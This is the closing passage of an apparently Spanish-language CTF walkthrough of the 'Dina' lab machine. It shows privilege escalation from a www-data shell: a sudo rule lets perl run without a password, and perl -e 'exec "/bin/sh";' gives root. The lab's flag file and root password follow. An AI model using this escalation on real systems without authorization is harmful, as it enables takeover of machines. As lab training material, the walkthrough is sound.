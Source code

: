Ya con la shell, vamos a mirar la lista de permisos que tenemos para usar privilegios de otro usuario:

~~~~
www-data@Dina:/var/www/SecreTSMSgatwayLogin$ sudo -l
Matching Defaults entries for www-data on this host:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on this host:
    (ALL) NOPASSWD: /usr/bin/perl
www-data@Dina:/var/www/SecreTSMSgatwayLogin$ 
~~~~

En este caso, si echamos mano de <https://gtfobins.github.io/gtfobins/perl/#shell> nos hacemos root:

~~~~
sudo perl -e 'exec "/bin/sh";'
whoami
root
cd /root
ls
flag.txt
cat flag.txt
________                                                _________
\________\--------___       ___         ____----------/_________/
    \_______\----\\\\\\   //_ _ \\    //////-------/________/
        \______\----\\|| (( ~|~ )))  ||//------/________/
            \_____\---\\ ((\ = / ))) //----/_____/
                 \____\--\_)))  \ _)))---/____/
                       \__/  (((     (((_/
                          |  -)))  -  ))


root password is : hello@3210
easy one .....but hard to guess.....
but i think u dont need root password......
u already have root shelll....


CONGO.........
FLAG : 22d06624cd604a0626eb5a2992a6f2e6
~~~~

Pues con esto finalizamos la máquina, nos vemos en la siguiente entrada.
